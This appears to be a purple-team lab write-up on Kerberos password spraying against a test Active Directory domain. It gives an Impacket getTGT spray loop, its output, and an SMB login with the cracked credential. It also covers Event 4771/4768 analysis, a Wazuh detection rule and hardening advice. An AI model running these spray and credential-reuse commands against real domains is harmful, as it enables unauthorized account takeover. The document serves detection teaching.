








# Lab 10 — Kerberos Pre-Authentication Password Spraying & Detection

*Part of the [Kerberos Attacks and Defense Labs](../README.md) — an end-to-end purple-team investigation: Kerberos pre-authentication mechanics (RFC 4120), horizontal credential spraying against Active Directory accounts, Event 4771 pre-auth failure telemetry (Status Code `0x18`), Event 4768 successful TGT acquisition, and Wazuh SIEM detection engineering.*

---

## 💡 Student Notes & Conceptual Breakthrough: Demystifying Kerberos Password Spraying

> *"Why do attackers spray passwords instead of brute-forcing them? And why does Kerberos fail with Event 4771 code `0x18` instead of the usual Event 4625?"*

When analyzing Active Directory authentication, distinguishing between brute force and password spraying is essential for detection engineers:

### 1. Vertical Brute-Force vs. Horizontal Password Spraying
- **Vertical Brute-Force (T1110.001):** An adversary picks a single high-value target (e.g., `Administrator`) and tries 1,000 passwords against it. 
  - *Why it fails:* Modern Active Directory environments configure `Account Lockout Threshold` (e.g., 5 invalid attempts). Within seconds, the account locks out, alert sirens fire in the SOC, and the attack is thwarted.
- **Horizontal Password Spraying (T1110.003):** The adversary reverses the equation. They take a list of 1,000 domain accounts and test **one single common password** (e.g., `Winter2026!`, `Welcome1!`) across all accounts, with pauses between attempts.
  - *Why it succeeds:* Each individual account only experiences **1 failure**, never triggering the lockout threshold. To traditional threshold alerts looking for 5 failures per user, the attack remains completely invisible.

### 2. The Kerberos Pre-Auth Mechanism (RFC 4120)
In Kerberos, before the KDC grants a Ticket Granting Ticket (TGT), it requires **Pre-Authentication (`PA-ENC-TIMESTAMP`)**. The client must encrypt the current timestamp using the user's secret password hash:
- **If the password is correct:** The KDC successfully decrypts the timestamp, issues a valid TGT, and logs **Event ID 4768** with `Result Code: 0x0`.
- **If the password is wrong:** The KDC fails to decrypt the timestamp and generates **Event ID 4771** with `Failure Code: 0x18` (`KDC_ERR_PREAUTH_FAILED`).
- **Forensic Key:** Pre-authentication failures do **not** trigger Event 4625 (Logon Failure). Event 4625 only fires when a user attempts an interactive or network logon after tickets are issued. If an analyst only queries Event 4625, they will completely miss Kerberos password spraying!

---

## Overview

**Password Spraying (MITRE ATT&CK T1110.003)** is a low-and-slow credential guessing technique targeting the **Kerberos Authentication Service (Port 88)**.

This lab covers target provisioning, horizontal pre-authentication spraying via Impacket, forensic telemetry isolation of failure code `0x18` vs success code `0x0`, and building a threshold-based correlation rule in **Wazuh 4.14.5**.

| # | Step | Event ID | Wazuh Rule | Level | Description |
|---|---|---|---|---|---|
| **1** | Audit Policy Setup | — | — | — | Active Directory Kerberos Authentication Service auditing enabled |
| **2** | Target User Provisioning | **4720** | **60109** | 8 | Provisioned `spray-user01` to `spray-user05` with `spray-user03` assigned target password |
| **3** | User Attribute Tracking | **4738** | **60110** | 8 | Captured account attribute and password initialization |
| **4** | Kerberos Password Spray | **4771** | **60104** | 5 | 4 pre-authentication failures recorded with Failure Code `0x18` |
| **5** | Valid TGT Issuance | **4768** | **100117** | 3 | Successful TGT issuance for `spray-user03` (`ResultCode: 0x0`, AES-256) |
| **6** | Network Access Validation | **4624** | **100114** | 5 | Validated credential used for SMB network share access (`LogonType: 3`) |

### Lab Environment Architecture

- **Domain Controller:** Windows Server 2022 Datacenter (`WIN-SOCLAB.soclab.local` — `192.168.100.146`)
- **Attacker Host:** Kali Linux 2026.2 (`192.168.100.50`) running Impacket v0.14.0
- **SIEM Platform:** Wazuh 4.14.5 in Docker on Kali Linux (`the-server-agent` Agent 001)
- **Target Accounts:** `spray-user01` through `spray-user05` in `SOCLAB.LOCAL`

---

## Architectural Deep Dive: Kerberos Pre-Authentication Workflow

```
+==================================================================================================+
|                        KERBEROS PRE-AUTHENTICATION PASSWORD SPRAYING                             |
+==================================================================================================+

   +-------------------+                                               +----------------------+
   |    Kali Linux     |                                               |  Domain Controller   |
   | (192.168.100.50)  |                                               |  (192.168.100.146)   |
   +-------------------+                                               +----------------------+
             |                                                                     |
             |  1. AS-REQ (spray-user01, PA-ENC-TIMESTAMP with "Winter2026!")       |
             |-------------------------------------------------------------------->|
             |                                                                     | Decrypt timestamp with
             |                                                                     | user01 key -> FAILS
             |                                                                     | Logs Event 4771 (0x18)
             |  2. KRB-ERROR: KDC_ERR_PREAUTH_FAILED (0x18)                        |
             |<--------------------------------------------------------------------|
             |                                                                     |
             |  3. AS-REQ (spray-user02, PA-ENC-TIMESTAMP with "Winter2026!")       |
             |-------------------------------------------------------------------->|
             |                                                                     | Logs Event 4771 (0x18)
             |  4. KRB-ERROR: KDC_ERR_PREAUTH_FAILED (0x18)                        |
             |<--------------------------------------------------------------------|
             |                                                                     |
             |  5. AS-REQ (spray-user03, PA-ENC-TIMESTAMP with "Winter2026!")       |
             |-------------------------------------------------------------------->|
             |                                                                     | Decrypt timestamp with
             |                                                                     | user03 key -> MATCH!
             |                                                                     | Logs Event 4768 (0x0)
             |  6. AS-REP (Valid TGT saved to spray-user03.ccache)                 |
             |<--------------------------------------------------------------------|
```

---

## Phase 1: Environment Baseline & Auditing Setup

### Step 1: Enable Kerberos Authentication Service Auditing on Domain Controller

Before testing, the Kerberos auditing subcategory must be enabled on the Domain Controller to capture both valid ticket requests and pre-authentication rejections:

```powershell
# Enable Kerberos Authentication Service auditing
auditpol /set /subcategory:"Kerberos Authentication Service" /success:enable /failure:enable

# Verify policy enforcement
auditpol /get /subcategory:"Kerberos Authentication Service"
```



---

### Step 2: Provision Test Domain User Accounts

Five test accounts were created in Active Directory. Four accounts received complex baseline passwords, while `spray-user03` was configured with the target sprayed password (`Winter2026!`):

```powershell
$StrongPass = ConvertTo-SecureString "<REDACTED_PASSWORD>" -AsPlainText -Force
$SprayedPass = ConvertTo-SecureString "<REDACTED_SPRAY_PASSWORD>" -AsPlainText -Force

1..5 | ForEach-Object {
    $uname = "spray-user0$($_)"
    $pass = if ($_ -eq 3) { $SprayedPass } else { $StrongPass }
    New-ADUser -Name $uname -SamAccountName $uname -UserPrincipalName "$uname@soclab.local" -AccountPassword $pass -Enabled $true
    Write-Host "[+] Created target account: $uname" -ForegroundColor Green
}
```



---

### Step 3: Verify Provisioned Accounts in Active Directory

Active Directory verification confirms all 5 spray user accounts are created and active:

```powershell
Get-ADUser -Filter "SamAccountName -like 'spray-user*'" | Select-Object Name, SamAccountName, Enabled
```


---

### Step 4: SIEM Baseline — Event 4720 Account Creation Alerts (Rule 60109)

Account creation generated Windows Security Event 4720 in Wazuh under built-in Rule **60109** (Level 8 — "User account enabled or created"):



---

### Step 5: SIEM Baseline — Event 4738 Account Attribute Modifications (Rule 60110)

Immediate post-creation attribute modifications and password sets generated Event 4738 under Rule **60110** (Level 8 — "User account changed"):



---

## Phase 2: Red Team Password Spray Execution

### Step 6: Horizontal Pre-Auth Password Spray Execution via Impacket

From Kali Linux (`192.168.100.50`), a Kerberos pre-authentication spray loop was executed against the Domain Controller using `impacket-getTGT`:

```bash
# Create username target list
cat << 'EOF' > /tmp/users.txt
spray-user01
spray-user02
spray-user03
spray-user04
spray-user05
EOF

# Execute spray loop against Port 88 testing 'Winter2026!'
for u in $(cat /tmp/users.txt); do 
    echo -n "[*] Testing $u: "
    impacket-getTGT soclab.local/$u:'Winter2026!' -dc-ip 192.168.100.146 2>&1 | grep -E "Saving ticket|KDC_ERR_PREAUTH_FAILED" || echo "ERROR"
done
```

#### Spray Output:
- `spray-user01`: `KDC_ERR_PREAUTH_FAILED`
- `spray-user02`: `KDC_ERR_PREAUTH_FAILED`
- `spray-user03`: **`Saving ticket in spray-user03.ccache`** (SUCCESS)
- `spray-user04`: `KDC_ERR_PREAUTH_FAILED`
- `spray-user05`: `KDC_ERR_PREAUTH_FAILED`



---

## Phase 3: Blue Team SIEM Telemetry & Detection Engineering

### Step 7: SIEM Triage Overview — Correlating 4 Failures and 1 Success

The attack signature appears prominently in the Wazuh Threat Hunting dashboard: **4 audit failure events (Rule 60104) and 1 custom rule alert (Rule 100117)**:


---

### Step 8: SIEM Discovery — Wazuh Rule 100117 Valid TGT Request Alert

Filtering for custom Rule **100117** isolates the successful TGT request for `spray-user03`:


---

### Step 9: Forensic Document Details — Event 4768 Success Telemetry

Opening Document Details for the Event 4768 alert confirms valid Kerberos pre-authentication parameters:
- **`data.win.eventdata.status`:** `0x0` (Audit Success)
- **`data.win.eventdata.targetUserName`:** `spray-user03`
- **`data.win.eventdata.serviceName`:** `krbtgt`
- **`data.win.eventdata.ticketEncryptionType`:** `0x12` (AES-256-CTS-HMAC-SHA1-96)
- **`data.win.eventdata.preAuthType`:** `2` (PA-ENC-TIMESTAMP)
- **`data.win.eventdata.ipAddress`:** `192.168.100.50` (Attacker IP)



---

### Step 10: Event Telemetry — Pre-Authentication Type 2 & AES-256 Validation

The underlying system message verifies pre-authentication type `2` (`PA-ENC-TIMESTAMP`) and AES-256 ticket encryption:



---

### Step 11: SIEM Discovery — Event 4771 Pre-Authentication Failures (Rule 60104)

Querying Event **4771** under Rule **60104** (Level 5 — "Windows audit failure event") displays the 4 failed attempts against `spray-user01`, `spray-user02`, `spray-user04`, and `spray-user05`:


---

### Step 12: Event Telemetry — Correlating Attacker Client IP Address

Correlating the network information in Event 4771 reveals the source IP `::ffff:192.168.100.50` (Kali Linux) targeting `krbtgt/SOCLAB.LOCAL`:


---

### Step 13: Forensic Smoking Gun — Failure Code 0x18 (Bad Password)

The system message fields confirm **`Failure Code: 0x18`** (`KDC_ERR_PREAUTH_FAILED`). This distinguishes password guessing from account lockouts (`0x12`) or clock skew (`0x25`):


---

## Phase 4: Follow-up Lateral Movement Validation (Event 4624)

### Step 14: Validating Discovered Credential via SMB Session

With the discovered credential for `spray-user03`, an interactive SMB connection was validated from Kali:

```bash
impacket-smbclient soclab.local/spray-user03:'Winter2026!'@192.168.100.146
```


---

### Step 15: SIEM Detection — Event 4624 Logon Type 3 Network Access (Rule 100114)

The SMB authentication generated **Event 4624 (Logon Type 3 - Network)**, immediately firing custom Rule **100114** ("Normal user spray-user03 logged on from ip: 192.168.100.50 (logon type 3)"):



---

## Phase 5: Detection Rule Engineering

To detect horizontal Kerberos password spraying automatically, a threshold correlation rule is implemented to alert when multiple Event 4771 failures originate from a single IP address across distinct target accounts within a short timeframe:

```xml
<!-- Custom Detection Rule: Kerberos Password Spray Detection -->
<group name="windows,kerberos,">
  <rule id="100120" level="10" frequency="5" timeframe="120">
    <if_matched_sid>60104</if_matched_sid>
    <field name="win.system.eventID">^4771$</field>
    <field name="win.eventdata.status">^0x18$</field>
    <same_field>win.eventdata.ipAddress</same_field>
    <different_field>win.eventdata.targetUserName</different_field>
    <description>Potential Kerberos Password Spray: Multiple pre-auth failures (0x18) from $(win.eventdata.ipAddress) across distinct accounts</description>
    <mitre>
      <id>T1110.003</id>
    </mitre>
  </rule>
</group>
```

---

## Defensive Recommendations & Hardening

1. **Fine-Grained Password Policies (FGPP):** Enforce 15+ character passphrases to render seasonal/dictionary guessing mathematically unviable.
2. **Account Lockout Thresholds:** Configure smart lockout (e.g., 5 invalid attempts with a 15-minute observation window).
3. **Multi-Factor Authentication (MFA):** Enforce MFA on all externally exposed authentication boundaries (VPN, RDP Gateway, OWA).
4. **Behavioral SIEM Correlation:** Alert on unique IP addresses generating Event 4771 across distinct user accounts within 10 minutes.
